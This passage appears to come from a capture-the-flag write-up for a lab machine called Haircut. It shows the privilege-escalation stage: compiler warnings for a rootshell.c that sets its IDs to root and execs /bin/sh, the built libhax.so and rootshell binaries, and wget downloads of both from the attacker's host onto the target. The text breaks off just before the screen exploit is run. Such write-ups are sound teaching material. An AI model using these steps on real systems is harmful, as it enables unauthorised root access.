         4 |     setgid(0);
          |     ^~~~~~
    rootshell.c:5:5: warning: implicit declaration of function ‘seteuid’ [-Wimplicit-function-declaration]
        5 |     seteuid(0);
          |     ^~~~~~~
    rootshell.c:6:5: warning: implicit declaration of function ‘setegid’ [-Wimplicit-function-declaration]
        6 |     setegid(0);
          |     ^~~~~~~
    rootshell.c:7:5: warning: implicit declaration of function ‘execvp’ [-Wimplicit-function-declaration]
        7 |     execvp("/bin/sh", NULL, NULL);
          |     ^~~~~~
    rootshell.c:7:5: warning: too many arguments to built-in function ‘execvp’ expecting 2 [-Wbuiltin-declaration-mismatch]
    

There are some warnings, but both binaries exist:

    
    
    root@kali# ls -l libhax.so rootshell
    -rwxrwx--- 1 root vboxsf 16136 Sep  3 22:23 libhax.so
    -rwxrwx--- 1 root vboxsf 16824 Sep  3 22:23 rootshell
    

I’ll upload both of those to `/tmp` on Haircut:

    
    
    www-data@haircut:/tmp$ wget 10.10.14.15/libhax.so
    --2020-09-04 04:26:26--  http://10.10.14.15/libhax.so
    Connecting to 10.10.14.15:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 16136 (16K) [application/octet-stream]
    Saving to: 'libhax.so'
    
    libhax.so           100%[===================>]  15.76K  --.-KB/s    in 0.02s   
    
    2020-09-04 04:26:26 (1013 KB/s) - 'libhax.so' saved [16136/16136]
    
    www-data@haircut:/tmp$ wget 10.10.14.15/rootshell
    --2020-09-04 04:26:30--  http://10.10.14.15/rootshell
    Connecting to 10.10.14.15:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 16824 (16K) [application/octet-stream]
    Saving to: 'rootshell'
    
    rootshell           100%[===================>]  16.43K  --.-KB/s    in 0.02s   
    
    2020-09-04 04:26:30 (1.04 MB/s) - 'rootshell' saved [16824/16824]
    

Now to execute, I’ll change into `/etc`, set the `umask`, and run `screen`
(making sure to get the right one):

